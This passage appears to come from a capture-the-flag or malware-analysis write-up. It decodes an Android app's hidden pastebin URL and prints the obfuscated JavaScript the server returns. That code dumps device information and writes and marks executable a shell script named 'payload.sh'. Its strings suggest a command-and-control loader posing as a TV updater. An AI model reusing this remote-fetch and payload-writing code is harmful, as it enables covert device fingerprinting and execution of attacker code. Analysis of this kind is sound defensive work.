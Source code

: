 We can see that an encoded string is decoded and a request is launched towards the a server. We can decode the string (example using JavaScript):
```javascript
atob(('5JjZSRDTSp0L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa').split("").reverse().join(""))
```

And we get the URL of the server:
```
https://pastebin.com/raw/JRL4Rf2y
```

The server responds with an obfuscated JavaScript code:
```javascript
var _0x1ff259 = _0x2b70;

function _0x2b70(_0x1c8997, _0x2ac5b0) { var _0x2cee27 = _0x2cee(); return _0x2b70 = function(_0x2b707f, _0x139942) { _0x2b707f = _0x2b707f - 0x187; var _0x10b11c = _0x2cee27[_0x2b707f]; return _0x10b11c; }, _0x2b70(_0x1c8997, _0x2ac5b0); }(function(_0x8a5f1e, _0x576ecf) { var _0x2b44eb = _0x2b70,
        _0x26ad16 = _0x8a5f1e(); while (!![]) { try { var _0x12bc5e = parseInt(_0x2b44eb(0x18e)) / 0x1 + -parseInt(_0x2b44eb(0x1ba)) / 0x2 * (parseInt(_0x2b44eb(0x1b3)) / 0x3) + -parseInt(_0x2b44eb(0x1b4)) / 0x4 * (parseInt(_0x2b44eb(0x19c)) / 0x5) + -parseInt(_0x2b44eb(0x18c)) / 0x6 * (parseInt(_0x2b44eb(0x192)) / 0x7) + parseInt(_0x2b44eb(0x1b9)) / 0x8 + parseInt(_0x2b44eb(0x18a)) / 0x9 + -parseInt(_0x2b44eb(0x19d)) / 0xa * (-parseInt(_0x2b44eb(0x1b6)) / 0xb); if (_0x12bc5e === _0x576ecf) break;
            else _0x26ad16['push'](_0x26ad16['shift']()); } catch (_0x25d57f) { _0x26ad16['push'](_0x26ad16['shift']()); } } }(_0x2cee, 0x37010));
var Runtime = Packages[_0x1ff259(0x194)][_0x1ff259(0x18d)][_0x1ff259(0x190)],
    File = Packages[_0x1ff259(0x194)]['io']['File'],
    FileWriter = Packages[_0x1ff259(0x194)]['io'][_0x1ff259(0x195)],
    Log = Packages['android']['util']['Log'],
    cache = androidContext['getExternalCacheDir'](),
    dumpFD = new File(cache, 'systeminfo_dump.txt'),
    fw = new FileWriter(dumpFD);
fw[_0x1ff259(0x1b8)](_0x1ff259(0x191) + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1af)] + '\x0a' + _0x1ff259(0x1b2) + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1a7)] + '\x0a' + _0x1ff259(0x1a4) + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1a6)] + '\x0a' + 'android.os.Build.HARDWARE=' + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1b5)] + '\x0a' + _0x1ff259(0x18b) + android['os']['Build']['PRODUCT'] + '\x0a' + _0x1ff259(0x1ab) + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x18f)] + '\x0a' + ''), fw['close'](), Log['i'](_0x1ff259(0x188), _0x1ff259(0x1a0));
var f = function(_0xbcbaf1, _0x47b8f9) { var _0x474218 = _0x1ff259,
            _0x3b6224 = []; for (var _0x12cae5 = 0x0; _0x12cae5 < _0xbcbaf1[_0x474218(0x1a5)]; _0x12cae5++) { var _0x6727f8 = _0x47b8f9[_0x474218(0x1ad)](_0x12cae5 % _0x47b8f9['length']);
            _0x3b6224[_0x474218(0x19e)](String['fromCharCode'](_0xbcbaf1[_0x12cae5] ^ _0x6727f8)); } return _0x3b6224[_0x474218(0x1bb)](''); }(_0x1ff259(0x1b7)['match'](/.{1,2}/g)[_0x1ff259(0x1a9)](function(_0x14ba8d) { return parseInt(_0x14ba8d, 0x10); }), android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1a6)] + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1a7)]),
    scriptFile = new File(cache, 'payload.sh');
try { var fw = new FileWriter(scriptFile);
    fw[_0x1ff259(0x1b8)]('#!/system/bin/sh\x0a'), fw[_0x1ff259(0x1b8)](_0x1ff259(0x193) + f + _0x1ff259(0x198)), fw[_0x1ff259(0x19b)](), scriptFile[_0x1ff259(0x1a2)](!![], ![]), Log['i'](_0x1ff259(0x1a1), _0x1ff259(0x197) + scriptFile[_0x1ff259(0x1ae)]()); } catch (_0x568576) { Log['e'](_0x1ff259(0x1a1), _0x1ff259(0x196) + _0x568576); }

function _0x2cee() { var _0x57321b = ['6545xeHlUP', 'echo\x20\x27', 'java', 'FileWriter', 'Error\x20writing\x20script:\x20', 'Script\x20written\x20to:\x20', '\x27\x20>\x20/sdcard/flag.txt\x0a', 'Script\x20executed\x20with\x20exit\x20code\x20', 'Build', 'close', '19955pTTTus', '156920KTsIQI', 'push', 'readLine', 'Hello!\x20From\x20server.', 'C2Script', 'setExecutable', 'getInputStream', 'android.os.Build.DEVICE=', 'length', 'DEVICE', 'MODEL', 'BufferedReader', 'map', 'exitValue', 'android.os.Build.TYPE=', 'Error\x20running\x20script:\x20', 'charCodeAt', 'getAbsolutePath', 'BOARD', '/system/bin/sh\x20', 'Output:\x20', 'android.os.Build.MODEL=', '93894TXXvUs', '424iIyiiH', 'HARDWARE', '176cOtnyk', '331c56405d553a434f3d0b6a75243e341b1c654204141e026c765d09532c4b175a7a1a790f272a06104c522c5c5c5618150d0d59', 'write', '955520HJYxAn', '20bkRSIM', 'join', 'InputStreamReader', 'TvUpdater', 'getRuntime', '1969416CwRaXL', 'android.os.Build.PRODUCT=', '66JdRpsW', 'lang', '382271PmOMtv', 'TYPE', 'Runtime', 'android.os.Build.BOARD='];
    _0x2cee = function() { return _0x57321b; }; return _0x2cee(); }
```